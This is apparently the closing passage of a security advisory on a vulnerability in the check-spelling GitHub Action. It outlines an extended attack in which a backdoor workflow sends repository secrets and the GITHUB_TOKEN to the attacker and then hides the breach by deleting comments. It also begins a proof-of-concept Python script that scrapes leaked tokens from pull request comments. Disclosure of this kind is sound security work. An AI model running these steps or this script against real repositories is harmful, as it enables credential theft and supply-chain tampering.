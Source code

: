 The `check-spelling` project plans to investigate and hopefully implement the strategic fix, mitigating any other potential issues.

## Opportunities for further research and exploit improvement

The proof of concept exploitation discussed in this advisory could be extended with further work. For instance, if an attacker has knowledge of the names of secrets in the repo's [secrets facility](https://docs.github.com/en/actions/reference/encrypted-secrets) then the following attack might be feasible.

Implement (i.e. code) a **new** backdoor GitHub Actions workflow that does the following:

1. Is triggered on `pull_request_target` events, giving it access to a high-privilege `GITHUB_TOKEN` value as well as the ability to have the values of the known secrets exposed to it.
2. Is [given exposure to the secrets stored in the secrets facility by name](https://docs.github.com/en/actions/reference/encrypted-secrets#using-encrypted-secrets-in-a-workflow).
3. Phones the secrets and the value of the `GITHUB_TOKEN` home to the attacker
4. Sleeps until told to resume by the attacker, or for a defined amount of time

Given this implemented backdoor workflow, the attacker could:

1. Use the `check-spelling` vulnerability to send a self-landing Pull Request that adds the above backdoor workflow to the repo.
2. Send a Pull Request that reverts the changes made in step 1 and makes any other desired changes. Upon receiving the Pull Request, the backdoor workflow will execute, sending the `GITHUB_TOKEN` and the value of secrets to the attacker before going to sleep.
3. Use the `GITHUB_TOKEN` learned from step 2 to merge the Pull Request from step 2, and to delete comments from both Pull Requests to try to conceal the breach.
4. Use the `GITHUB_TOKEN` for any other purpose, such as creating releases.
6. Tell the workflow triggered in step 2 that it can stop sleeping, allowing the workflow to complete and the `GITHUB_TOKEN` to be invalidated.

Such an attack would effectively leak the value of secrets to the attacker and would allow the attacker to reliably make any desired changes to the repo's contents and its releases at the attacker's leisure. It would have a forensic footprint of at least two automatically merged Pull Requests.

## Appendix A - `race_githubtoken.py`

Scrapes a `GITHUB_TOKEN` out of a Pull Request's comment thread and rushes to use it before it becomes invalid.

```python
#!/usr/bin/env python3
import argparse
import itertools
import re
import requests
from typing import Optional, List
from uuid import uuid4
from urllib.parse import quote_plus


class Racer:
    def __init__(self, owner: str, repo: str, pr: int, pat: Optional[str] = None):
        self.owner, self.repo, self.pr, self.pat = owner, repo, pr, pat
        self.session = requests.Session()

    def get_comments(self) -> List:
        url = "https://api.github.com/repos/{owner}/{repo}/issues/{pr}/comments".format(
            owner=quote_plus(self.owner),
            repo=quote_plus(self.repo),
            pr=quote_plus(str(self.pr)),
        )
        headers = {} if self.pat is None else {"Authorization": f"Bearer {self.pat}"}
        r = self.session.get(url, headers=headers, timeout=5)
```